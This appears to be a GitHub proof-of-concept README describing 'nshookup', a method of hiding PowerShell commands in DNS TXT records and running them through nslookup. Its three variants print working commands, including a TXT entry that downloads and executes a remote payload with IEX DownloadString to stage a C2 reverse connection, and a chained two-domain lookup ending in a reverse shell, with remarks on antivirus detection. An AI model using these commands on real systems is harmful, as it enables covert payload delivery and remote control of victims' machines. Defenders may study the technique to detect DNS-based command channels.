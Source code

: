 ### Variant 0.1
Commands are stored as TXT entries on a DNS server and requested via nslookup (a.k.a "nshookup").<br><br>
Client executing:.<br>
`powershell (nslookup -q=txt bad-domain.com)[5]`<br><br>
DNS Server entry:<br>
`ping google.com`<br><br>
*EXPLANATION: nslookup.exe calls the TXT entry through DNS as subprocess from powershell. This way the stored commands get transmitted over DNS and executed in the context of the current (powershell) process. The number in the brackets stands for the index (five being the first possible one) of the command. It is also possible to use "[-1]" should there be only a single command available as TXT entry.*<br><br>

The outcome is `powershell ping google.com` being executed in the current session on the clients system.

![GRAPHIC_1](https://github.com/Dood3/PoCs/assets/93183445/ed4ab94c-44fa-4cde-924b-10f26ebbc169)


### Variant 0.2
-> Commands are stored as TXT entries on a DNS server to host a payload/stager for a  reverse connection to a C2 server (Havoc, Empire, etc.).<br><br>
Client executing:<br>
`powershell (nslookup -q=txt bad-domain.com)[5]`<br><br>
DNS Server entry:<br>
`IEX (New-Object Net.WebClient).DownloadString('http:/server/payload.html')`<br><br>
*EXPLANATION: Again, the TXT enty is interpreted as legitimate command through parent & child process being powershell and a DNS request respectively.
The file hosting the payload is not bound to any file formats. A simple file without suffix will work. 
This request will most likely trigger AV (AMSI). If "IEX" doesn't get caught, the delivered payload itself will.*<br>

 ![GRAPHIC_2](https://github.com/Dood3/PoCs/assets/93183445/b9052342-258e-4e92-8559-abdec97e44b8)


### Variant 0.3
-> Commands are stored as TXT entries on a domain1.com to host another nslookup command requesting entries from domain2.com.<br><br>
Client executing:<br>
`powershell (nslookup -q=txt bad-domain.com)[5]`<br><br>
DNS Server entry (the index may vary):<br>
`powershell (nslookup -q=txt bad-domain2.com)[5]`<br><br>
DNS Server TXT entry on bad-domain_2.com:<br>
`IEX (New-Object Net.WebClient).DownloadString('http:/server/payload.html')`<br><br>
*EXPLANATION: The commands can be chained together with a combination of dns servers. The client requests the first domain, which in return requests the actual commands.on the second server.*<br>
This will most likely trigger AV (AMSI).<br>

1. `powershell (nslookup -q=txt bad-domain.com)[5]`<br>
2. `powershell (nslookup -q=txt bad-domain_2.com)[5]`<br>
3. `Command gets delivered to Client (over dns)`<br>
4. `Reverse shell phoning home`<br>

  ![GRAPHIC_3](https://github.com/Dood3/PoCs/assets/93183445/3243575e-8f56-478b-bf27-f3a1d4788557)

